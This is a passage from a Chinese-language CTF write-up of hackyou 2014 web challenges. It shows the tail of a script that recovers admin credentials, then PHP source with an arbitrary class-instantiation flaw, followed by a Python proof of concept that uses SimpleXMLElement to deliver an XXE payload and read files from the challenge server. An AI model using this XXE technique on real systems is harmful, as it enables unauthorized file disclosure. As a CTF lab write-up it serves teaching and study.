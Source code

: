 ```
        last;
}else{
$b=0;
}
}
print "\n";

```

最后可以看到数据为：

```
admin
9shS3FAk

```

到登陆页面登陆即可过关。

第四关
---

* * *

这关提供源码下载了，[http://hackyou.ctf.su/files/web400.zip](http://hackyou.ctf.su/files/web400.zip)

```
<?php
include 'config.php';
include 'classes.php';
$action = (isset($_REQUEST['action'])) ? $_REQUEST['action'] : 'View';
$param = (isset($_REQUEST['param'])) ? $_REQUEST['param'] : 'index';
$page = new $action($param);
echo $page;
?>

```

看这行

```
$page = new $action($param);

```

我们能实例化任意的类，并且传递$param给构造函数，我们先拿SimpleXMLElement看看效果

[http://cn2.php.net/manual/en/simplexmlelement.construct.php](http://cn2.php.net/manual/en/simplexmlelement.construct.php)

POC如下：

```
#!/usr/bin/env python
import requests
import sys
import base64

def hack(inject):
    vul={'param':'<!DOCTYPE foo [<!ENTITY xxe SYSTEM "' + inject + '" >]><foo>&xxe;</foo>'}
    req=requests.post('http://hackyou2014tasks.ctf.su:40080/index.php?action=SimpleXMLElement',data=vul)
    print base64.b64decode(req.content)

if __name__=="__main__":
    hack(sys.argv[1])

```
